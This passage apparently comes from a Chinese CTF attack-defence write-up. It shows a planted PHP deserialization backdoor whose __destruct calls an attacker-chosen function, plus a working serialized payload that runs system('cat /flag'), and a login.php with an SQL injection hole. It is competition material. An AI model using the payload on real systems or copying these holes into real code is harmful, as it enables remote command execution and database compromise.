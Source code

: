 但是可以看到10队已经上了通防脚本，返回了一个假的flag

#### 反序列化

sqlhelper.php最下面有这样一句

```
if (isset($_POST['un']) && isset($_GET['x'])){
class A{
    public $name;
    public $male;
    
    function __destruct(){
        $a = $this->name;
        $a($this->male);
    }
}
unserialize($_POST['un']);
}
```

$name 传个system $male传个cat /flag 就可以拿到flag了

payload:

GET: `?x=yzddmr6`

POST: `un=O:1:"A":2:{s:4:"name";s:6:"system";s:4:"male";s:9:"cat /flag";};`

#### 注入上传

login.php

```
<?php
if (isset($_POST['username'])){
    include_once "../sqlhelper.php";
    $username=$_POST['username'];
    $password = md5($_POST['password']);
    $sql = "SELECT * FROM admin where name='$username' and password='$password';";
    $help = new sqlhelper();
    $res  = $help->execute_dql($sql);
    echo $sql;
    if ($res->num_rows){
        session_start();
        $row = $res->fetch_assoc();
        $_SESSION['username'] = $username;
        $_SESSION['id'] = $row['id'];
        $_SESSION['icon'] = $row['icon'];
        echo "<script>alert('登录成功');window.location.href='/'</script>";
    }else{
        echo "<script>alert('用户名密码错误')</script>";
    }
}
?>
```
